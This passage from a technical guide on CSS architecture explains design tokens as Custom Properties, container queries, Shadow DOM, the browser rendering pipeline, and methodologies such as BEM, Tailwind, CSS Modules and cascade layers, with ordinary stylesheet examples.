

**Decision implications.** Most production layouts are not "Flexbox vs.
Grid" globally but Grid-for-structure-with-Flexbox-inside — nesting the
right engine at each level of the component tree rather than forcing one
engine to do both jobs. Architecturally, this decision belongs in a design
system's layout primitives (a `<Stack>` component wrapping Flexbox, a
`<Grid>` component wrapping CSS Grid) so individual feature teams inherit the
right engine per use case rather than re-deriving this test from scratch
every time.

**Common failure mode.** "Grid everywhere" as an over-correction after
learning Flexbox's cross-axis alignment limitations, which adds unnecessary
explicit-track bookkeeping to layouts that were never two-dimensional in the
first place, and "Flexbox everywhere" as the inverse over-correction from
teams that adopted Flexbox first and never revisited page-shell layouts once
Grid matured.

### 4.9 CSS Custom Properties as a Design-Token Architecture Layer

**Definition.** CSS Custom Properties (informally "CSS variables," syntax
`--name: value;`) are author-defined properties whose values are substituted
at computed-value time via the `var()` function, and — critically for
architecture purposes — participate in the cascade and inherit through the
DOM tree exactly like any other CSS property.

**Mechanism.** This cascade/inheritance participation is what separates
Custom Properties from a preprocessor's compile-time variables (Sass/Less
`$variable`/`@variable`), and is the reason Custom Properties, not
preprocessor variables, are the correct foundation for a runtime theming
architecture:

```css
:root {
  --color-brand-500: #2563eb;
  --color-surface: #ffffff;
  --color-text: #111827;
  --space-unit: 0.5rem;
}

[data-theme="dark"] {
  --color-surface: #111827;
  --color-text: #f9fafb;
}

.card {
  background: var(--color-surface);
  color: var(--color-text);
  padding: calc(var(--space-unit) * 3);
}
```

Because `--color-surface` is redeclared on `[data-theme="dark"]` and Custom
Properties inherit, every descendant `.card` automatically picks up the
dark-theme value the instant the `data-theme` attribute changes — no
JavaScript re-render, no re-computation of derived styles, and no
duplicated `.card` rule per theme, because the *token* changed, not the
component rule that consumes it. A Sass `$variable`, by contrast, is
substituted once at build time; switching themes at runtime with Sass
variables alone would require compiling and shipping a second, complete
stylesheet per theme and swapping which one is loaded.



Custom Properties also compose with `calc()`, enabling derived tokens (a
spacing scale built from one `--space-unit` as shown above), and can be
scoped to any selector, not just `:root` — a component can define its own
private custom properties as an explicit, documented customization API
(`.button { --button-bg: var(--color-brand-500); background: var(
--button-bg); }`, letting a consumer override just `--button-bg` on a
specific instance without needing a new class or touching the component's
own stylesheet).

**Decision implications.** Custom Properties are the correct implementation
layer for design tokens (colors, spacing, typography scale, radii, shadows)
precisely because tokens are, by definition, values that must be overridable
per theme/brand/density *at runtime*, without a rebuild — a requirement
preprocessor variables cannot satisfy on their own. Design-token tooling
(Style Dictionary and similar) commonly generates Custom Properties as its
CSS output target for exactly this reason, even when the token *source of
truth* is a JSON/YAML file maintained by design tooling.

**Common failure mode.** Treating Custom Properties purely as "variables" and
missing their cascade/inheritance behavior — for example, defining a token on
`.sidebar` expecting it to apply site-wide, not realizing it only affects
`.sidebar` and its descendants, unlike a preprocessor variable's single
global compile-time value.

**Concrete scenario.** A multi-tenant SaaS (Software as a Service) product
needs each customer's account to render in that customer's brand color
without shipping a separate stylesheet build per tenant. Setting
`--color-brand-500` on `:root` from a small inline `<style>` block populated
server-side per request (or via a `data-tenant` attribute selector matching
a small set of pre-defined palettes) lets the entire component library —
already written in terms of `var(--color-brand-500)` — repaint correctly
with zero component code changes and zero additional CSS bundle size per
tenant.

### 4.10 Responsive Design Architecture

**Definition.** Responsive design architecture is the set of mechanisms that
let a single set of CSS rules adapt presentation to the environment
rendering it — historically the viewport, and more recently the size of an
individual component's own container.

**Mechanism — three layers, each solving a different scope of problem:**

- **Media queries** (`@media (min-width: 768px) { ... }`) respond to
  *global* environment characteristics: viewport dimensions, device
  orientation, resolution, and user preferences exposed as media features
  (`prefers-color-scheme`, `prefers-reduced-motion`). Media queries cannot
  see anything about the component they're styling other than the global
  environment — a component styled with a media query behaves identically
  whether it's rendered full-width or inside a 300px sidebar, which is
  exactly the limitation Container Queries were introduced to remove.
- **Container queries** (`@container (min-width: 400px) { ... }`) respond
  to the size of a *specific ancestor* opted in via `container-type:
  inline-size` (or `size`), making a component's internal layout responsive
  to the space it's actually given, independent of viewport width. This is
  the mechanism that makes a genuinely reusable, drop-in-anywhere component
  possible: the same card component can render as a two-column layout
  inside a wide dashboard panel and a single-column layout inside a narrow
  sidebar, on the exact same viewport, because it's responding to its own
  container's size, not the window's.
- **Fluid typography** (via `clamp(min, preferred, max)`) responds
  continuously rather than at discrete breakpoints:
  `font-size: clamp(1rem, 0.75rem + 1vw, 1.75rem);` scales smoothly between
  a floor and ceiling as the viewport (or, combined with container query
  units like `cqi`, the container) changes, eliminating the "jump" artifact
  of switching a fixed `font-size` at a breakpoint boundary.

```mermaid
flowchart TD
    A["Responsive requirement"] --> B{Depends on the\nviewport/device globally?}
    B -- Yes --> C["Media query\n(@media (min-width/max-width),\nprefers-color-scheme, orientation)"]
    B -- No, depends on this\ncomponent's own\navailable space --> D["Container query\n(@container, container-type)"]
    A --> E{Continuous scaling needed\n(no visible 'jump')?}
    E -- Yes --> F["Fluid value via clamp()\n(typography, spacing)"]
```

**Decision implications.** A layered responsive architecture uses media
queries for page-level/global decisions (does the whole layout switch from a
single column to a sidebar layout at all?) and container queries for
component-level decisions (how does *this* card's internals rearrange given
whatever space its parent grants it?) — conflating the two, by styling
reusable components with media queries, silently couples a component's
correctness to "the contexts it happened to be tested in," which breaks the
moment a design system component is reused inside a narrower container than
originally anticipated.

**Common failure mode.** Breakpoint proliferation: adding a new `@media`
rule every time a specific device's viewport width produces an awkward
layout, rather than fixing the underlying fluid/flexible sizing, produces a
stylesheet with dozens of device-specific breakpoints that must all be
re-verified on every future layout change — a maintenance cost that grows
without bound as device diversity grows, whereas fluid typography/spacing
and container queries reduce the *number* of breakpoints a component
actually needs.

**Concrete scenario.** A product card component is styled with
`@media (min-width: 600px) { .card { display: grid; grid-template-columns:
120px 1fr; } }` to switch from a stacked to a side-by-side layout. It looks
correct on the marketing page (full viewport width) but breaks when reused
inside a 400px-wide sidebar widget on a 1400px-wide viewport — the media
query fires (viewport is wide) even though the component's actual available
space is narrow. Replacing the media query with
`@container card (min-width: 350px) { .card { display: grid; ... } }` after
declaring `.card-container { container: card / inline-size; }` on the
component's wrapper fixes this permanently, because the query now correctly
reflects the component's own rendered width in every context it's dropped
into.

### 4.11 Component Isolation: Shadow DOM Encapsulation vs. Global Cascade Risk

**Definition.** Shadow DOM is a browser-native mechanism that attaches a
separate, encapsulated DOM subtree (a "shadow tree") to an element, such
that CSS rules defined outside the shadow tree do not apply inside it, and
CSS rules defined inside the shadow tree do not leak outside it — a
style-scoping boundary enforced by the browser itself, not by a naming
convention.

**Mechanism.** The global cascade (§ 4.1) has no native concept of
"belongs to this component" — every selector in every loaded stylesheet is,
by default, evaluated against every element in the document, which is why
every methodology in § 7 (BEM's naming discipline, CSS Modules' generated
class names, CSS-in-JS's scoped class generation) exists to *simulate*
scoping on top of a cascade that is fundamentally global. Shadow DOM instead
makes scoping a first-class browser feature: elements inside a shadow root
are invisible to descendant combinators and most selectors written outside
it, and (with the `:host` and `::slotted()` pseudo-classes/elements)
provides an explicit, narrow API for the small number of cases where a
component legitimately needs to expose styling hooks to its consumer.



**Decision implications.** Shadow DOM's guarantee is strongest, and its cost
(losing easy design-system-wide theming, since outside stylesheets can't
reach in) is most acceptable, for components with a hard isolation
requirement: third-party embeddable widgets (a chat widget, an ad unit, a
payment form) that must be immune to the host page's CSS and must not leak
their own styles onto the host page, regardless of what the host page's
stylesheets contain. Custom Properties are a deliberate, narrow exception to
Shadow DOM's isolation: they *do* cross the shadow boundary by inheritance
(§ 4.9), which is precisely why Custom Properties, not ordinary selectors,
are the standard mechanism for theming a Shadow-DOM-encapsulated component
from the outside — a host page sets `--brand-color` on `:root`, and a shadow
tree's internal styles can read it via `var(--brand-color)` despite the
otherwise-strict isolation boundary.

**Common failure mode.** Assuming Shadow DOM composes for granular, general
application UI decomposition the way a component library's class-scoping
convention does — Shadow DOM's all-or-nothing isolation (no `.card` from
outside can style anything inside without an explicit exposed hook)
makes ordinary cross-cutting design-system updates (a spacing-scale change
that should ripple through every component) considerably more expensive to
apply than in a global-cascade-with-naming-discipline architecture, unless
every token that might need updating was deliberately exposed as a Custom
Property up front.

**Concrete scenario.** A company builds a single embeddable review-widget
`<script>` tag that customers paste into arbitrary third-party websites they
don't control. Without Shadow DOM, the widget's own CSS could be
accidentally overridden by an aggressive host-page reset stylesheet
(`* { all: unset; }`), and the widget's CSS could equally leak out and break
the host page's own layout. Wrapping the widget's rendered markup in a
Shadow Root, with only a handful of Custom Properties (`--widget-accent-
color`, `--widget-font-family`) deliberately exposed for host-page
theming, gives a hard isolation guarantee neither BEM naming discipline nor
CSS Modules can provide, because both of those are conventions the *host
page's own CSS is not obligated to respect*, whereas the shadow boundary is
enforced by the browser regardless of what the host page's CSS contains.

## 5. Internal Working — The Rendering Pipeline

CSS's runtime cost is not evenly distributed — different property changes
trigger different, increasingly expensive stages of the browser's rendering
pipeline, and understanding which stage a given change enters is the single
most load-bearing piece of CSS performance knowledge an architect needs.



The pipeline runs in four stages after the DOM and CSS Object Model (CSSOM)
are constructed:

1. **Style** — the browser computes, for every DOM node, the final value of
   every CSS property after resolving the full cascade (§ 4.1), inheritance,
   and initial values. This produces the *render tree*, which is the DOM
   filtered to only the nodes that will actually render (nodes with
   `display: none` are entirely excluded — they participate in neither
   layout nor paint) paired with each node's fully computed style.
2. **Layout (Reflow)** — the browser walks the render tree and computes the
   exact geometry (position and size, in pixels) of every box, applying the
   box model (§ 4.5) and whichever layout engine (§ 4.6/4.7) governs each
   container. This is the most expensive stage per element touched, because
   a single box's size or position change can force recomputation of every
   sibling, ancestor, and descendant whose geometry depended on it —
   layout is inherently a global constraint-solving pass, not a per-element
   independent calculation.
3. **Paint** — the browser fills in actual pixels for each box: background
   color, text, borders, shadows, images — recorded as a set of paint
   instructions (sometimes split across separate *paint layers* for
   elements the browser decides to promote, such as those with `transform`,
   `opacity`, `will-change`, or `position: fixed`).
4. **Composite** — the browser combines all painted layers into the final
   on-screen image, applying any layer-level transforms (translation,
   scale, rotation) or opacity purely on the GPU, without re-running paint
   or layout at all.

**Reflow vs. repaint vs. compositing-only, and what triggers each.**

| Property changed | Pipeline stage(s) re-run | Relative cost |
|---|---|---|
| `width`, `height`, `top`, `left`, `margin`, `padding`, `font-size`, adding/removing DOM nodes | Layout → Paint → Composite | Highest — full reflow |
| `background-color`, `color`, `box-shadow`, `border-color`, `visibility` | Paint → Composite | Medium — repaint without reflow |
| `transform`, `opacity` (when the element has its own compositor layer) | Composite only | Lowest — GPU-only, skips layout and paint entirely |

This table is why `transform: translateX(200px);` is the standard,
performance-correct way to animate an element's position, while animating
`left`/`top` directly is the standard anti-pattern: both produce the same
visual motion, but `left`/`top` re-triggers full layout on every animation
frame (recomputing every affected box's geometry, potentially cascading to
siblings), while `transform` is composite-only and can run at 60 frames per
second on the GPU without touching layout or paint at all.



**Layout thrashing** is the failure mode of *forced synchronous layout*: when
JavaScript reads a layout-dependent property (`element.offsetHeight`,
`getBoundingClientRect()`) immediately after writing a style that invalidates
layout, the browser cannot use its normal batched/deferred layout scheduling
— it must run layout synchronously, right then, to answer the read
correctly. Doing this in a loop (read-write-read-write across many elements)
forces one full layout pass per iteration instead of one batched pass for
the whole loop, and is a common, easy-to-introduce performance defect in
code that measures-then-repositions elements (drag-and-drop libraries,
virtualized lists, custom tooltips) — batching all reads before all writes
(or using `requestAnimationFrame` to defer writes) restores the browser's
ability to batch layout once per frame instead of once per element.

## 6. Design Principles

- **Separation of concerns**: structure (HTML/markup), presentation (CSS),
  and behavior (JavaScript) as independently versionable layers connected by
  a stable selector contract, not a technical mandate to avoid all
  co-location (component-scoped CSS in § 7 deliberately co-locates styles
  with the component they belong to — the separation that matters is
  *concern*, not *file*).
- **Progressive enhancement**: base styles that work without advanced
  feature support, layered with `@supports` feature queries for
  enhancements (Grid, Container Queries, `:has()`), so a layout degrades
  gracefully rather than breaking entirely on older or constrained
  rendering engines.
- **Mobile-first authoring**: base rules target the narrowest viewport, with
  `min-width` media queries layering enhancements for wider viewports — this
  ordering keeps the base case (mobile) as the unconditional default rather
  than an override, and tends to produce simpler, more composable rules than
  `max-width`-first ("desktop-first") authoring.
- **Predictable specificity ceilings**: an architecture-level rule (not a
  per-author habit) capping selector complexity — most production
  methodologies converge on "at most one class selector per rule" as the
  practical ceiling, because it makes every future override resolvable via
  source order alone (§ 4.2's decision implications).
- **Token-driven theming over hard-coded values**: every color, spacing
  value, radius, and shadow expressed via a Custom Property (§ 4.9) rather
  than a literal value repeated across the codebase, so a single token
  change propagates everywhere it's consumed.

## 7. Architecture Patterns — CSS Methodologies at Scale

Every methodology below is solving the same underlying problem — the global
cascade has no native scoping mechanism (§ 4.11) — with a different trade-off
between authoring ergonomics, bundle size, runtime cost, and how strictly
scope collisions are prevented.

### 7.1 BEM (Block, Element, Modifier)

**Mechanism.** BEM is a naming convention, not a tooling requirement: classes
are named `block__element--modifier` (e.g. `card__title--highlighted`),
where a **block** is a standalone, reusable component (`card`), an
**element** is a part of that block that has no standalone meaning outside
it (`card__title`), and a **modifier** is a variant or state of a block or
element (`card--featured`, `card__title--highlighted`). The naming
convention itself keeps specificity flat — every BEM selector is exactly one
class — and encodes component boundaries directly in the class name, so a
`card__title` class can never be mistaken for a coincidentally-identical
`title` class belonging to an unrelated component.

```css
.card { border-radius: 0.5rem; padding: 1rem; }
.card__title { font-size: 1.25rem; font-weight: 600; }
.card__title--highlighted { color: var(--color-brand-500); }
.card--featured { border: 2px solid var(--color-brand-500); }
```

**Trade-offs.** BEM adds no build-time or runtime dependency and keeps
scoping enforcement entirely convention-based, which is its main weakness:
nothing prevents an author from writing a non-BEM selector that accidentally
collides, because the browser's cascade still sees a completely global,
unenforced set of class names — the discipline exists only in the team's
review process.

### 7.2 Utility-First CSS (Tailwind's Atomic Model)

**Mechanism.** Utility-first frameworks (Tailwind CSS being the dominant
example) invert the traditional "define a semantic class, then style it"
flow: instead, a large, pre-generated set of single-purpose *atomic* classes
(`.flex`, `.p-4`, `.text-lg`, `.bg-brand-500`) are composed directly in
markup, and no new custom CSS is authored for most components at all.

```html
<div class="flex items-center gap-3 rounded-lg border p-4 shadow-sm">
  
  <div>
    <p class="text-sm font-semibold text-gray-900">Jane Doe</p>
    <p class="text-sm text-gray-500">Solution Architect</p>
  </div>
</div>
```

Because every utility class is single-purpose and single-class-specificity,
the cascade's tie-breaking collapses almost entirely to source order (§ 4.1
step 4) and the framework's own build step, which — critically — controls
the *output order* of utility classes in the generated stylesheet
specifically so that conflicting utilities (`.p-4` and `.p-6` both applied
to the same element) resolve predictably regardless of the order authors
happened to write the class attribute in markup. Modern Tailwind versions
scan the codebase at build time and generate only the utility classes
actually referenced, keeping shipped CSS proportional to *distinct utility
combinations used*, not to the size of the full utility catalog.

**Trade-offs.** Utility-first trades markup verbosity and a steeper
"illegible class soup" first impression for near-total elimination of
specificity conflicts and unused-CSS bloat (§ 11), and for co-locating every
visual decision with the markup that needs it, which removes an entire class
of "which stylesheet defines this and why" archaeology. It also trades away
BEM's semantic class names as a form of self-documentation — reading
`.card__title--highlighted` communicates intent that `.text-lg.font-semibold
.text-brand-500` does not, unless the team also extracts repeated utility
combinations into a component abstraction (a framework component, not a CSS
class) to restore that semantic layer.

### 7.3 CSS Modules

**Mechanism.** CSS Modules are a build-time transformation, not a browser
feature: a bundler (webpack, Vite) rewrites each class name in a
`.module.css` file to a generated, globally-unique identifier (typically a
hash of the file path and original class name), and rewrites every reference
to that class in the importing component's markup to match — so `.title` in
`Card.module.css` might compile to `.Card_title__a1b2c` in the shipped
stylesheet, guaranteeing no other module's `.title` can ever collide with
it, regardless of what either file's author named their class.

```css
/* Card.module.css */
.title { font-size: 1.25rem; font-weight: 600; }
```

```jsx
import styles from "./Card.module.css";
function Card() {
  return <h3 className={styles.title}>Hello</h3>; // renders class="Card_title__a1b2c"
}
```

**Trade-offs.** CSS Modules give BEM's scoping *guarantee* (collision-proof,
because names are generated, not merely conventioned) while keeping ordinary
CSS syntax and full cascade/media-query/pseudo-class support, at the cost of
requiring a build step and coupling the styling layer to the specific
bundler's module resolution — a CSS Module class reference cannot be
constructed dynamically as a plain string the way a Tailwind or BEM class
name can, because the mapping from source name to generated name only exists
at build time.

### 7.4 CSS-in-JS

**Mechanism.** CSS-in-JS libraries (styled-components, Emotion, and similar)
author styles as JavaScript values — typically tagged template literals or
object literals — co-located directly with the component that uses them,
and generate scoped class names (and inject the corresponding stylesheet
rules) either at build time or at runtime in the browser:

```jsx
const Card = styled.div`
  border-radius: 0.5rem;
  padding: 1rem;
  background: ${(props) => props.theme.colors.surface};
`;
```

**Trade-offs.** CSS-in-JS's strongest advantage is direct access to
JavaScript values (component props, theme context, conditional logic)
inside style definitions without a separate templating mechanism — the
`props.theme.colors.surface` interpolation above is trivial in CSS-in-JS and
requires a Custom Property bridge (§ 4.9) to achieve with CSS Modules or
BEM. Its architectural cost is real, though: runtime CSS-in-JS libraries
inject `<style>` tags during rendering, which adds JavaScript execution to
the critical rendering path (§ 11) for styles that could otherwise be static
`.css` files parsed by the browser's native CSS parser well before any
JavaScript executes — this is precisely why several major CSS-in-JS
libraries have shipped build-time/zero-runtime variants (extracting static
styles to plain `.css` files at build time and falling back to runtime
injection only for genuinely dynamic, prop-dependent styles) as the industry
learned this cost the hard way in production Core Web Vitals regressions.

### 7.5 ITCSS (Inverted Triangle CSS) as an Organizing Meta-Pattern

**Mechanism.** ITCSS is not a naming convention like BEM but a *file-ordering*
discipline: stylesheets are organized into layers of increasing specificity
and decreasing reach — Settings (tokens, no output), Tools (mixins/functions,
no output), Generic (resets), Elements (bare tag selectors), Objects
(layout patterns, e.g. media-object), Components (BEM/CSS-Modules-scoped
UI), and Utilities (single-purpose overrides, highest specificity, loaded
last) — deliberately mirroring the shape `@layer` (§ 4.3) now lets a browser
enforce natively rather than merely by file-load order.

**Decision implications.** ITCSS composes with any of §7.1-7.4's scoping
methodologies — it answers "in what order should these files be loaded" while
BEM/utility-first/CSS Modules/CSS-in-JS answer "how are individual class
names scoped." Modern architectures increasingly re-implement ITCSS's layer
ordering directly as native `@layer` declarations (§ 4.3) instead of relying
on file-load order alone, because `@layer` makes the ordering explicit and
enforced regardless of specificity, closing the gap ITCSS's file-order-only
approach could not.

## 8. Production Architecture

A production CSS pipeline for a design-system-driven application typically
chains the following stages:


Autoprefixer (a PostCSS plugin) reads a project's declared browser support
matrix (via Browserslist config) and adds vendor prefixes only where a
target browser still requires them, rather than shipping every possible
prefix unconditionally — keeping output size proportional to actual
compatibility need. Route-level code-splitting ensures a user loading the
checkout page doesn't download CSS exclusive to the admin dashboard, and
critical CSS extraction (§ 11) inlines only the styles needed for
above-the-fold content in the initial HTML response, deferring the rest.

## 9. Implementation

Implementing a token-driven, layered CSS architecture in practice combines
§ 4.3 (Cascade Layers), § 4.9 (Custom Properties), and § 7.5 (ITCSS-style
ordering) into one coherent entry stylesheet:

```css
/* app.css — the single entry point declaring the full layer order up front */
@layer reset, tokens, base, objects, components, utilities, overrides;

@import "./tokens.css" layer(tokens);
@import "./reset.css" layer(reset);
@import "./base.css" layer(base);
@import "./objects.css" layer(objects);
@import "./components/card.css" layer(components);
@import "./components/button.css" layer(components);
@import "./utilities.css" layer(utilities);
```

Because the `@layer` order is declared once, at the top, every subsequent
import's precedence is fixed regardless of import order further down the
file or how specific any individual selector inside it is — a new component
stylesheet added to the `components` layer six months from now automatically
slots into the correct precedence tier without anyone needing to reason
about its selectors' specificity relative to `utilities`.

## 10. Complete Code Examples

**Example 1 — SCSS component authored with BEM, consuming design tokens as
Custom Properties (see [code/css/css-chapter/_card.scss](../code/css/css-chapter/_card.scss)):**

```scss
// _card.scss — BEM naming + Custom Property token consumption
.card {
  --card-radius: 0.75rem;
  border-radius: var(--card-radius);
  background: var(--color-surface);
  box-shadow: 0 1px 3px rgb(0 0 0 / 10%);
  padding: calc(var(--space-unit) * 3);

  &__title {
    font-size: 1.25rem;
    font-weight: 600;
    color: var(--color-text);

    &--highlighted {
      color: var(--color-brand-500);
    }
  }

  &--featured {
    border: 2px solid var(--color-brand-500);
  }
}
```

**Example 2 — Cascade Layers isolating a vendored third-party stylesheet
(see [code/css/css-chapter/layers.css](../code/css/css-chapter/layers.css)):**

```css
@layer reset, thirdparty, base, components, utilities;

@layer thirdparty {
  @import url("vendor/datepicker.css");
}

@layer components {
  /* Wins over the vendor library's rules unconditionally,
     regardless of the vendor's internal selector specificity. */
  .datepicker { font-family: var(--font-sans); border-radius: var(--radius-md); }
}
```

**Example 3 — Responsive card grid combining CSS Grid, `fr` units, and a
Container Query (see [code/css/css-chapter/responsive-grid.css](../code/css/css-chapter/responsive-grid.css)):**

```css
.gallery {
  container-type: inline-size;
  container-name: gallery;
  display: grid;
  grid-template-columns: repeat(auto-fill, minmax(220px, 1fr));
  gap: 1.5rem;
}

/* Component adapts to the space its parent grants it, not the viewport. */
@container gallery (max-width: 480px) {
  .gallery { grid-template-columns: 1fr; }
}

.card__title {
  font-size: clamp(1rem, 0.85rem + 0.5cqi, 1.5rem);
}
```

**Example 4 — Light/dark theming entirely via Custom Properties, no
duplicated component rules (see [code/css/css-chapter/theming.css](../code/css/css-chapter/theming.css)):**

```css
:root {
  --color-surface: #ffffff;
  --color-text: #111827;
  --color-brand-500: #2563eb;
  --space-unit: 0.5rem;
}

[data-theme="dark"] {
  --color-surface: #111827;
  --color-text: #f9fafb;
  --color-brand-500: #60a5fa;
}

@media (prefers-color-scheme: dark) {
  :root:not([data-theme="light"]) {
    --color-surface: #111827;
    --color-text: #f9fafb;
  }
}
```

**Example 5 — `content-visibility` and `contain` for render-cost isolation
of long, off-screen lists (see [code/css/css-chapter/render-perf.css](../code/css/css-chapter/render-perf.css)):**

```css
.feed-item {
  content-visibility: auto;
  contain-intrinsic-size: 0 240px; /* placeholder size before first render */
}
```

`content-visibility: auto` tells the browser to skip layout, paint, and
render-tree construction entirely for elements currently off-screen,
re-running those stages only once the element approaches the viewport —
directly reducing the cost of the Layout and Paint stages (§ 5) for pages
with very long lists, at the cost of needing `contain-intrinsic-size` to
avoid the page's scrollbar jumping as unrendered items suddenly report their
real height.

## 11. Performance

**Render-blocking CSS.** By default, the browser will not paint any content
until it has fully parsed the CSSOM (§ 5), because rendering with incomplete
style information would produce a flash of incorrectly-styled content — this
is why `<link rel="stylesheet">` in `<head>` blocks first paint until that
stylesheet finishes downloading and parsing, and why stylesheet download
time is directly on the critical path to First Contentful Paint (FCP) and
Largest Contentful Paint (LCP).

**Critical CSS extraction** mitigates this by identifying the minimal set of
rules needed to correctly render above-the-fold content, inlining those
rules directly in the HTML `<head>` (avoiding a network round-trip
entirely), and loading the remainder of the stylesheet asynchronously
(`<link rel="preload" as="style" onload="this.rel='stylesheet'">` or a
`media="print"` swap trick) so it doesn't block first paint.

